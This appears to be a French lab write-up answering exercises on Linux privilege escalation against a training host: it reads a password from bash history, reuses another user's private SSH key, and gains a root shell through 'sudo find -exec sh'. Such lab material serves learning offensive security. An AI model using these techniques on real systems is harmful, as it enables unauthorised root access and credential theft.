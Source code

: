 
## 1.1. Credentials from Bash History

Pour se connecter:
```bash
ssh alice@10.11.1.36
>>
Unable to negotiate with 10.11.1.36 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss

ssh alice@10.11.1.36 -oHostKeyAlgorithms=+ssh-rsa
```


(i) Search for a password that you can find in the history. What is the password?
```bash
cat .bash_history 
>>
id
*ls
...
su msfabmin
msfadmin
su msfadmin
...

pwd
>>
/home/alice

ls -la
>>
total 44
drwxr-xr-x 6 alice alice 4096 2023-09-27 04:41 .
drwxr-xr-x 8 root  root  4096 2022-06-27 09:16 ..
-rw------- 1 alice alice 7397 2023-09-27 07:55 .bash_history
-rw-r--r-- 1 alice alice  220 2022-06-27 09:16 .bash_logout
-rw-r--r-- 1 alice alice 2928 2022-06-27 09:16 .bashrc
drwxr-xr-x 2 alice alice 4096 2023-09-21 03:42 mahsum
drwxr-xr-x 2 root  root  4096 2023-09-27 04:55 mike
-rw-r--r-- 1 alice alice  586 2022-06-27 09:16 .profile
drwxr-xr-x 2 alice alice 4096 2023-09-21 10:06 Seb
drwx------ 2 alice alice 4096 2023-09-21 05:44 .ssh

```

(2) Do a privilege elevation by logging into your account. What is the user?

```bash
su msfadmin
>>
Password: 

whoami
>>
msfadmin

sudo -l
>>
[sudo] password for msfadmin: 
User msfadmin may run the following commands on this host:
    (ALL) ALL
```




## 1.2. SSH keys


Contexte:
Je suis connecté au serveur distant via le compte de Alice.

But:
Pouvoir me connecter au compte de msfadmin en utilisant en exploitant les différentes clés SSH

Mode opératoire:
```bash
locate id_rsa
>>
/home/msfadmin/.ssh/id_rsa
/home/msfadmin/.ssh/id_rsa.pub

cd /home/msfadmin/.ssh/

ls -la
>>
total 20
drwxr-xr-x 2 msfadmin msfadmin 4096 2010-05-17 21:43 .
drwxr-xr-x 7 msfadmin msfadmin 4096 2022-06-17 06:25 ..
-rwxr-xr-x 1 msfadmin msfadmin 1014 2023-09-27 18:00 authorized_keys
-rwxr-xr-x 1 msfadmin msfadmin 1675 2010-05-17 21:43 id_rsa
-rwxr-xr-x 1 msfadmin msfadmin  405 2010-05-17 21:43 id_rsa.pub

# On rajoute la clé public id_rsa.pub à la ligne du fichier authoried_keys (côté serveur)
echo "......." >> authorized_keys

# On crée une clé privé (côté client) qui correspond à la clé privé de msfadmin
nano msfadmin_ssh_key

ls -l
>>
total 4
-rw-r--r-- 1 nabil nabil 1675 Sep 27 23:22 msfadmin_ssh_key

chmod 600 msfadmin_ssh_key 

ls -l
>>
total 4
-rw------- 1 nabil nabil 1675 Sep 27 23:22 msfadmin_ssh_key

# On se connecte avec les bonnes options
ssh -i msfadmin_ssh_key msfadmin@10.11.1.36 -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa
```



## 1.3. Sudo Access

1.What programs can we run as sudo?
```bash
sudo -l
User alice may run the following commands on this host:
    (ALL) NOPASSWD: /bin/mkdir
    (ALL) NOPASSWD: /bin/rmdir
    (ALL) NOPASSWD: /usr/bin/find
```

2.Look at the gtfobins site to see which executable would give
you root privileges
```bash
find
```

3.Execute the command
```bash
sudo find /home -exec sh -i \;

whoami
>>
root

su alice
```

4.What is the executable run as sudo ?
```
/usr/bin/find or /bin/sh
```



## 1.4. Group Privilege

-


